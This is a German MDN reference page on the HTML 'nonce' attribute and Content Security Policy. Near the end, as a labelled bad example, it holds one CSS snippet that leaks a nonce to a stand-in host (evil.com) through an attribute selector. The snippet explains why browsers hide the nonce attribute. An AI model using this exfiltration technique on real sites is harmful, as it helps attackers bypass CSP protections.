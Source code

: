 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
l10n:
  sourceCommit: 926f83641b980fcda58914649748b0368eeca1cd
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Global_attributes)
ist ein Inhaltsattribut, das eine kryptografische Nonce ("Nummer, die einmal verwendet wird") definiert und von der [Content Security Policy](/de/docs/Web/HTTP/CSP) verwendet werden kann, um zu bestimmen, ob ein bestimmter Abruf für ein gegebenes Element zugelassen wird oder nicht.

## Beschreibung

Das `nonce`-Attribut ist nützlich, um bestimmte Elemente wie ein bestimmtes Inline-Skript oder Style-Elemente auf die Allowlist zu setzen.
Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/CSP) `unsafe-inline`-Direktive zu vermeiden, die _alle_ Inline-Skripte oder -Stile auf die Allowlist setzen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keine Möglichkeit haben, unsichere Inline-Skript- oder Style-Inhalte zu vermeiden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, können Sie stattdessen auch einen CSP-Hash verwenden.
> (Siehe Nutzungshinweise zu [unsafe inline script](/de/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie immer, den vollen Vorteil der [CSP](/de/docs/Web/HTTP/CSP)-Schutzmaßnahmen zu nutzen und Nonces oder unsichere Inline-Skripte wann immer möglich zu vermeiden.

### Verwendung von nonce, um ein \<script>-Element auf die Allowlist zu setzen

Es sind einige Schritte erforderlich, um ein Inline-Skript mithilfe des Nonce-Mechanismus auf die Allowlist zu setzen:

#### Generierung von Werten

Erzeugen Sie von Ihrem Webserver aus eine zufällige, base64-kodierte Zeichenkette mit mindestens 128 Bit Daten aus einem kryptografisch sicheren Zufallszahlengenerator. Nonces sollten jedes Mal unterschiedlich generiert werden, wenn die Seite geladen wird (Nonce nur einmal!). Zum Beispiel in Node.js:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Auf die Allowlist setzen von Inline-Skript

Die in Ihrem Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf die Allowlist setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Senden einer Nonce mit einem CSP-Header

Schließlich müssen Sie den Nonce-Wert in einem
[`Content-Security-Policy`](/de/docs/Web/HTTP/Headers/Content-Security-Policy)-Header senden
(`nonce-` voranstellen):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Nonce-Verbergung

Aus Sicherheitsgründen wird das `nonce`-Inhaltsattribut verborgen (eine leere Zeichenkette wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // gibt leere Zeichenkette zurück
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce)-Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // gibt Nonce-Wert zurück
```

Nonce-Verbergung hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen, die Daten aus Inhaltsattributen wie diesem extrahieren können, zu exfiltrieren:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
